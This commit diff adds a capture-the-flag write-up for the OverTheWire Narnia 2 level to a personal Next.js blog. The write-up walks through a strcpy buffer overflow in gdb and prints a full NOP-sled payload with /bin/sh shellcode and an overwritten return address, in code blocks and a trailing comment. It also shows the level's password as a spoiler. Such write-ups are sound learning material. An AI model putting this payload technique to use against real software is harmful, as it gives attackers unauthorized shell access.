

Before and after one commit to ryannath/over-the-wire, a Next.js app: page /over-the-wire/narnia/narnia2 in a window 1280 px wide. Shown: the part 214-2120 px from the top of the page at 82% size, without its empty margins (272-1007 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Overhauled narnia 2 blog entry

```diff
--- a/pages/narnia/narnia2.tsx
+++ b/pages/narnia/narnia2.tsx
@@ -1,13 +1,166 @@
+import CodeBlock from "../../components/elements/CodeBlock/CodeBlock"
+import Keyword from "../../components/elements/Keyword/Keyword"
 import PageNav from "../../components/elements/PageNav/PageNav"
 import SpoilerKey from "../../components/elements/SpoilerKey/SpoilerKey"
+import Tag from "../../components/elements/Tag/Tag"
 
 const narnia2 = () => {
   return (
     <div>
       <h1>Narnia 2</h1>
+      <Keyword>
+        <Tag>shellcode</Tag>
+        <Tag>buffer-overflow</Tag>
+        <Tag>overwrite-registers</Tag>
+      </Keyword>
+      <section>
+        <h2>Experience</h2>
+        <p>
+          Looking at the source code of Narnia 2, my initial
+          thoughts is that this may be another difficult level.
+          I notice the potential vulnerability from the function
+          <code>strcpy</code> as it does not seem to check
+          for the buffer&apos;s length. I believe I&apos;ve used a function
+          called <code>strncpy</code> which does require the length of the buffer.
+          Besides that however, I was unsure how I will be able to execute any
+          payload as it simply prints out what&apos;s in the buffer.
+        </p>
+        <CodeBlock language="c">
+          {`int main(int argc, char * argv[]){
+    char buf[128];
+
+    if(argc == 1){
+        printf("Usage: %s argument\\n", argv[0]);
+        exit(1);
+    }
+    strcpy(buf,argv[1]);
+    printf("%s", buf);
+
+    return 0;
+}`}
+        </CodeBlock>
+        <p>
+          Searching on how to execute a command by exploiting a buffer
+          overflow, I came upon this great instruction
+          by Coen Goedegebure named <a href='https://www.coengoedegebure.com/buffer-overflow-attacks-explained/'>Buffer overflow attacks explained</a>.
+          From this, I learnt that I had to overwrite one of the registers of the
+          program, named EIP (extended Instruction Pointer) which points to
+          the next instruction the program will execute. It also thought that
+          we may know when we have overwritten the register when the
+          program try to get the value from the pointer but obtained an
+          invalid address.
+        </p>
+        <p>
+          Using gdb, we gain access to viewing information register using
+          <code>info registers</code> and also allow us to call
+          the program repeatedly with ease, using <code>r</code> followed
+          by the argument we want the program to have. Incrementing from the
+          size of the buffer itself, 128, 130, 140, it returned a
+          segmentation fault at 140. Checking the register information,
+          the EIP has indeed been overwritten. Next, we simply have
+          to find the number of characters it actually took to overwrite
+          the EIP. I discovered that it took 132 characters to reach
+          EIP. The following command was used to proof this.
+        </p>
+        <CodeBlock language='shell'>
+          {`r $(python -c "print 'a' * 132 + 'b' *4")`}
+        </CodeBlock>
+        <p>
+          Now, we simply have to inject a shellcode, and change
+          the EIP pointer to the address of the shellcode. Now, we may
+          inspect the memory address used by the program using <code>x</code>
+          in gdb.
+        </p>
+        <CodeBlock language="">
+          {`x/200x $sp`}
+        </CodeBlock>
+        <p>
+          The above code will print the memory per 200 byte blocks from
+          the stackpointer. Searching for our
+          injected characters, we found the following section.
+        </p>
+        <CodeBlock language="">
+          {`0xffffd810:     0x00326169      0x61616161      0x61616161      0x61616161
+0xffffd820:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd830:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd840:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd850:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd860:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd870:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd880:     0x61616161      0x61616161      0x61616161      0x61616161
+0xffffd890:     0x61616161      0x61616161      0x62626262      0x5f434c00
+0xffffd8a0:     0x3d4c4c41      0x555f6e65      0x54552e53      0x00382d46
+0xffffd8b0:     0x435f534c      0x524f4c4f      0x73723d53      0x643a303d`}
+        </CodeBlock>
+        <p>
+          From this, we could clearly see the location of the injected &quot;a&quot; (which
+          has a value of 61). The start of the buffer lies on the address
+          <code>0xffffd814</code>, we could check this using <code>x/s 0xffffd5b8</code>
+          or <code>print((char *)0xffffd5b8</code>. Now, consider the shellcode from Narnia 1.
+          The length of the shellcode was 24 bytes, therefore, we would only need 108 filler
+          bytes, we will put nop (no operation) code which is <code>\90</code> in assembly. We can already construct the full
+          payload from this, simply change the &quot;b&quot;s to an address in the no op region, I&apos;ve
+          chosen 0xffffd860
+        </p>
+        <CodeBlock language="">
+          {`r $(python -c "print '\\x90'* 108 + '\\x6a\\x0b\\x58\\x31\\xf6\\x56\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x89\\xca\\xcd\\x80' + '\\x60\\xd8\\xff\\xff'")`}
+        </CodeBlock>
+        <p>
+          And the memory was looking like so. From here, we can see that, any address from 0xffffd814 (0xffffd80c + 8 bytes) should work, but this may not be the case
+          outside of gdb, so we will still use 0xffffd860. This is in fact the point
+          of the no-op, they act as a sled to move it to our shellcode. To read more,
+          please do see the article by Coen Goedegebure mentioned above.
+        </p>
+        <CodeBlock language="">
+          {`E(gdb) x/100x $sp+500
+0xffffd7ac:     0x00000017      0x00000001      0x00000019      0xffffd7eb
+0xffffd7bc:     0x0000001a      0x00000000      0x0000001f      0xffffdfe8
+0xffffd7cc:     0x0000000f      0xffffd7fb      0x00000000      0x00000000
+0xffffd7dc:     0x00000000      0x00000000      0x00000000      0xe9000000
+0xffffd7ec:     0x579d63ca      0x8b994914      0x406436df      0x694fbea3
+0xffffd7fc:     0x00363836      0x00000000      0x72616e2f      0x2f61696e
+0xffffd80c:     0x6e72616e      0x00326169      0x90909090      0x90909090
+0xffffd81c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd82c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd83c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd84c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd85c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd86c:     0x90909090      0x90909090      0x90909090      0x90909090
+0xffffd87c:     0x90909090      0x31580b6a      0x2f6856f6      0x6868732f
+0xffffd88c:     0x6e69622f      0xc931e389      0x80cdca89      0xffffd860`}
+        </CodeBlock>
+        <p>
+          Now simply run the command outside of gdb, replacing the r with
+          natas2.
+        </p>
+        <CodeBlock language="">
+          {`./narnia2 $(python -c "print '\\x90'* 108 + '\\x6a\\x0b\\x58\\x31\\xf6\\x56\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x89\\xca\\xcd\\x80' + '\\x60\\xd8\\xff\\xff'")`}
+        </CodeBlock>
+      </section>
+      <section>
+        <h2>Reflection</h2>
+        <p>
+          This was a very challenging level, we had to look deeply into the memory of the program
+          itself and even then, the memory may not be the same when the program
+          is actually ran outside of gdb. I noticed this as the lower memory address work
+          inside gdb. The problem was the gdb is identified with the user narnia2, so
+          the program must be ran outside. This was a source of confusion for quite some time.
+        </p>
+        <p>
+          This level extended on the shellcode concept learnt from Narnia2, but this time,
+          we are not given the luxury that the input is ran by the program by default. I learnt
+          of PID, the register that points to the location of the next instruction which expanded
+          the potential of using this type of attack. This taught me that, the vulnerability
+          was a lot more dangerous as it can overwrite registers and basically change
+          the control flow of the program as a whole.
+        </p>
+
+      </section>
       <SpoilerKey>{`vaequeezee`}</SpoilerKey>
-      <PageNav link1='/narnia/narnia1' link2=''/>
+      <PageNav link1='/narnia/narnia1' link2='' />
     </div>
   )
 }
 export default narnia2
+
+// r  $(python -c "print '\x90'* 108 + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '\x60\xd8\xff\xff'")
```
Also changed, not shown: pages/narnia/narnia1.tsx (+7 -0 lines).
